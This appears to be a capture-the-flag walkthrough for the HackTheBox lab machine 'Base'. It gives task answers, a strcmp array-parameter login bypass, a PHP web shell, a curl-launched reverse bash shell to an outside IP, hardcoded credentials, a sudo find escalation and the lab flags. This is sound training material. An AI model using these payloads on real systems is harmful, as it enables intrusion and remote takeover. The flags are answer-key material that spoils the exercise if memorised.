



### Base

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Vulnerability Assessment, Custom Applications, Source Code Analysis, Authentication, Apache, PHP, Reconnaissance, Web Site Structure Discovery, SUDO Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, Information Disclosure<br>

---

#### Task 1
**Which two TCP ports are open on the remote host?**
> 22,80



#### Task 2
**What is the relative path on the webserver for the login page?**
> /login/login.php

We visit the website and click the Login button. We are redirected to the `/login/login.php` page.

#### Task 3
**How many files are present in the '/login' directory?**
> 3

We go to `/login` and see 3 files: `login.php`, `config.php`, and `login.php.swp`.



#### Task 4
**What is the file extension of a swap file?**
> .swp

#### Task 5
**Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password**
> strcmp()

We use the `cat` command look at the contents of the `login.php.swp` file:

```php
// login.php.swp
if (strcmp($password, $_POST['password']) == 0) 
if (strcmp($username, $_POST['username']) == 0)
```

#### Task 6
*In which directory are the uploaded files stored?*
> /_uploaded

We use Burp Suite to log into the website. We try to login to the website and intercept the HTTP POST Request. We add `[]` to the end of the `username` and `password` variable names to change them from a String into an Array.

```
username[]=user&password[]=pass
```

The `strcmp()` function was expecting the username and password to be a String instead of array, so it returns `null`. Since `null` evaluates to `0`, we successfully login to the website.

We are met with a page to upload files. We upload a file called `test.txt` and then use Gobuster to find the directories with `.txt` files. We find that the uploaded files are in the `/_uploaded` directory:



#### Task 7
*Which user exists on the remote host with a home directory?*
> john

We upload a PHP shell to the website:

```php
// shell.php
<?php echo shell_exec($_GET['cmd']); ?>
```

Next we start a Netcat listener on port `12345` of our  computer. Then we use curl to start a reverse bash shell:

```bash
curl http://10.129.27.143/_uploaded/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.75%2F12345%200%3E%261%27
```

#### Task 8
*What is the password for the user present on the system?*
> thisisagoodpassword

The credentials are hardcoded into the `config.php` file:

```
$username = "admin";
$password = "thisisagoodpassword";
```

#### Task 9
*What is the full path to the command that the user john can run as user root on the remote host?*
> /usr/bin/find

We login as john:

[Shell](shell.png)


#### Task 9
*What action can the find command use to execute commands?*
> exec


---

#### User Flag
> f54846c258f3b4612f78a819573d158e

#### Root Flag
> 51709519ea18ab37dd6fc58096bea949

Once we login as john, we can use the `find` command with `exec` to get a bash shell:

[Root](root.png)


---
